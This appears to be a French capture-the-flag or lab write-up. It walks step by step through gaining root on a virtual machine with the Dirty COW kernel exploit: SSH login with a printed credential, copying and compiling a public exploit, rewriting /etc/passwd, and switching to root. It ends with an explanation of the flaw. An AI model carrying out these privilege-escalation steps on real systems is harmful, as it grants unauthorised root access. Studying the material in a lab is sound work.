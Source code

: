 # Dirty COW

On se connecte en ssh à la machine avec les credentials:
```
$ ssh laurie@<IP>
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

# Version KERNEL
On vérifie la version du Kernel
```
$ uname -a
```

On se rend compte que la version de Kernel (3.2.0-91) est vulnérable a la faille Dirty COW.

Après quelques recherches sur le net, on tombe sur ce site qui met à disposition un exploit pour Dirty COW.
```
https://www.exploit-db.com/exploits/40839
```

# Exploit
On copie le fichier ```exploit_dirty.c``` dans la VM.
```
$ scp exploit_dirty.c laurie@<IP>:/home/laurie 
```

On compile
```
$ gcc -pthread exploit_dirty.c -o dirty -lcrypt
```

On exécute
```
$ ./dirty <NEW-PASSWORD>
```

L'éxécutable va modifier le fichier ```/etc/passwd```. Selon la documentation Linux (voir lien), le fichier est constitué de la façon suivante:

```smithj:x:561:561:Joe Smith:/home/smithj:/bin/bash```

Un “x” dans le champ mot de passe indique que les mots de passe sont stockés dans le fichier ``/etc/shadow``.

Lorsqu'on exécute ```dirty```, celui-ci va remplace le "x" par le hash du mot de passe que nous venons de saisir.

```
http://www.linux-france.org/article/sys/lame/html/x829.html
```

On exécute ```su``` avec le mot de passe choisi.

On verifie l'uid
```
$ id
```

On se rend compte que nous sommes uid=0. BINGO!!!

On se deplace dans le dossier ```/root``` et avec un ```cat README``` on se rendre compte que nous sommes root sur la machine!


# Explication de la faille
La faille Dirty COW touche le noyau Linux à partir de la version 2.6.22 (Septembre 2007) jusqu'à la version 4.4.25 inclus. Elle a été corrigé depuis la version 4.4.26.
Elle exploite les fonctionnalités Copy-On-Write (COW) du noyau, d'où son nom. C'est par ce biais que le pirate peut atteindre et écrire sur des espaces memoire qui, normalement, ne sont qu'en lecture seule. 
De cette facon, il est possible de faire une élévation de privilèges et devenir root.

La faille Dirty COW a été découverte par Phil Oester.

```
Video Youtube
Lien: https://www.youtube.com/watch?v=kEsshExn7aE
```

